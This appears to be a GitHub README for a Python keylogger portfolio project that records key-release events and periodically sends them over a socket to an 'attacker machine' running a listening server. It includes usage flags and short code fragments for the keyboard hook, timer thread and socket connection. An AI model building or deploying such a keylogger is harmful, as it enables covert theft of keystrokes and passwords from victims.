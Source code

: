 # Key_Logger_Socket
## Motivation
Build a portfolio for strong python and networking background<br>
Develop a simple keylogger script with added remote connection feature using python socket module

## Usages
```
Usage:
 -i: interval time (seconds)
 --ip: IP address of the listening server
 -m: method for report the logged key event
```
Example:
```
python Attack_SVR.py
python Key_Logger_Socket.py -i 5 --ip "localhost" -m "chat_svr"
```
### Note
Run Attack_SVR.py on attacker machine
<br>If no method specified, file_reporting will be used.

## Features
### Keyboard module
```
 keyboard.on_release(callback=callback)
```
<br>For every KeyUp events caught by on_release() method from keyboard module, calls the callback funcntion. Callback function would categorize the KeyUp event and populate the log variable. Using callback allow the next line of code to run without having to wait for the return values of on_release()</br>
### Daemon thread and periodic calling
```
timer = Timer(interval=self.interval, function=self.chat_svr_report)
timer.daemon = True
timer.start()
```
Daemon thread will be killed whenever the main thread (Keyboard) dies. Timer class from threading module will allow this function to call itself periodically every [interval] seconds.
### Network Connection
#### Initialize s socket object to create a connection back to attacking server
```
 s = socket.socket(AF_INET,SOCK_STREAM)
```
#### On client side
```
 s.connect()
 s.send()
 s.close()
```
#### On server side
```
 s.bind()
 s.listen()
 s.accept()
```
